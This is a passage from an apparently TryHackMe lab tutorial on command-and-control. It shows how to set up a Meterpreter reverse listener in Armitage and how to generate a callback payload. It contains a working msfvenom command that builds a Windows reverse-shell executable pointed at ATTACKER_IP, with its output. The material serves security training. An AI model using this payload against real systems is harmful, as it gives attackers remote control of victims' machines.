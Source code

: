 Creating a Listener in Armitage

Next, we're going to move onto a topic that all C2 servers have - this being listener creation. To stay on topic, we will demonstrate how to set up a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks. Let's create a basic Meterpreter Listener running on TCP/31337. To start, click on the Armitage dropdown and go over to the "Listeners" section; you should see three options, Bind, Reverse, and set LHOST. Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/1ad92c6b503433e43a906c0d6719f137.png)  

_Creating a Listener in Armitage_

  

After clicking "Reverse," a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, "Shell" or "Meterpreter". Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/f1799890a05592fcc5338efd4edf281b.png)  

_Configuring the Listener_

  

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.

  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/7bc806ea13495e55eb82fc5c399d8876.png)  

_Listener successfully configured_

  

After setting up a listener, you can generate a standard windows/meterpreter/reverse_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server. 

  

**Getting a Callback**

  

MSFVenom Payload Generation

```shell-session
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
